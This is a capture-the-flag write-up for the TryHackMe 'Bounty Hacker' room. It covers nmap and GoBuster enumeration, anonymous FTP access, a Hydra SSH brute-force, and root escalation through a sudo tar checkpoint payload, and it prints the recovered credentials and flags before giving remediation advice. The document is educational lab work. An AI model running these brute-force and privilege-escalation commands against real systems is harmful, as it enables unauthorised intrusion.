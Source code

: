 # Lab Report - Bounty Hacker


# Overview 
- **Date**: 04/10/2025
- **Category**: Web, FTP
- **Difficulty**: Easy 
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/cowboyhacker
- **Tags**: #enumeration #Brute-force #services #privesc 

## Challenge Description 
>**- An easy boot-to-root machine.** 

## Resolution Summary 
>**We enumerated services using `Nmap`. Next we found an FTP server with Anonymous login enable, which contained information that allowed us to perform a brute-force attack on the SSH server. Finally, we escalated our privileges through misconfigured sudo permissions, involving the`tar` binary.**

# Information Gathering 
## Active Reconnaissance 
- **As we were given an IP address, we  started by performing an `Nmap` port scan, we  scanned for services' version in order to uncover potential version-related vulnerabilities.** 
```bash
sudo nmap -sV 10.10.181.45
```
- Note: adding the `-p-` flag did not reveal additional information. 

- **We got the following results from the `Nmap` scan:**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Here we discovered several attack vectors to investigate, we started by the web application.** 
### HTTP (80)
- **For starters, we  ran `GoBuster` in order to discover hidden directories. We used SecList's medium list for this task:**
```bash
gobuster dir -u 10.10.181.45 -w 
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```

- **While the previous command was running, we took a look at the web, and particularly the source code since there was not much to it. However, we did not find anything relevant.**

- **We got the following results from `GoBuster`:**
```bash
/images               (Status: 301) [Size: 313] [--> http://10.10.181.45/images/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.181.45/javascript/]
/server-status        (Status: 403) [Size: 277]
```

- **Just in case, we uploaded the only image available and checked its metadata for hidden information using `exiftool`:** 
```bash
exiftool crew.png
```
- Note: it did not lead to any relevant track. 

- **Since there was not anything left to the web application, we proceeded to save the  usernames we encountered since we will be targeting the FTP and SSH server next:** 
```bash
Spike (the one supposed to hack the system), Jet, Ed, Faye, Edward, Ein.
```

### FTP (21)
- **Next,  we headed straight to the FTP server. We connected to it using the `ftp` command:** 
```bash
ftp 10.10.181.45
```

- **One of the first reflexes we should have here is to attempt Anonymous login, which succeeded in this case.** 
- **Another reflex would be to use `help` to list the available commands:**
```bash
ftp> help
```

- **Upon further investigation, we encounter two .txt files, `locks.txt` and `task.txt`**
- **The `locks.txt` file was formatted similar to a wordlist (containing passwords here), hence it may become handy when trying to brute-force  SSH credentials.** 
- **The `task.txt` file revealed the following message, which provided us with more usernames to test when brute-forcing the SSH server:** 
```bash
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
# Exploitation 
- **Now that we were done with the enumeration step, we attempted to brute-force the SSH server with the wordlist we recovered (`locks.txt`). For this task we used  `Hydra`.**
- **First, we made a a user list with all the usernames we found up until now. Subsequently, we proceeded by using `Hydra`:** 
```bash
hydra -L userlist.txt -P wordlist.txt ssh://10.10.181.45 
```

- **We found a valid pair of credentials :**
```bash
[DATA] attacking ssh://10.10.181.45:22/
[22][ssh] host: 10.10.181.45   login: lin   password: RedDr4gonSynd1cat3
```

- **Which allowed us to gain access to the SSH server (22) by using:** 
```bash
ssh lin@10.10.181.45
```

- **Upon logging in, we were greeted by the first flag:** 
	- **user.txt -> `THM{CR1M3_SyNd1C4T3}`.

# Privilege Escalation 
- **Our goal here was to find a way to escalate our privileges and access the final flag.**
- **For started, we tried to see which command we could possibly use with sudo:**
```bash
sudo -l
```

- **And here was the result:** 
```bash
User lin may run the following commands on ip-10-10-181-45:
    (root) /bin/tar
```

- **Once we found this clue, we directly went to check on [GTFOBins](https://gtfobins.github.io/) for privileges escalation vectors.** 
- **We found the following payload to use:** 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- **We confirmed that the attempt was successful by using:**
```bash 
whoami
root #Result
```

- **Finally, we were able to access the final flag:**
```bash
find / -type f -name "root.txt" 
cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
# Trophy 
**User.txt → `THM{CR1M3_SyNd1C4T3}`**

**Root.txt → `THM{80UN7Y_h4cK3r}`**

# Remediation Summary
- **Anonymous login:** It should be disable to reinforce authentication on FTP servers.  
- **Storing passwords in cleartext:** Passwords can be safely stored using trusted password managers. 
- **Misconfigured sudo permissions:**  Sudo usage should be restricted to essential commands only. 
# Lessons Learned
- **Any piece of information can be useful:** Saving usernames to make a wordlist was proven to be useful, as it permitted to successfully brute-force the SSH login credentials. 
- **GTFOBins in privesc**: Checking GTFOBins allows you to transform your findings into practical exploits. 
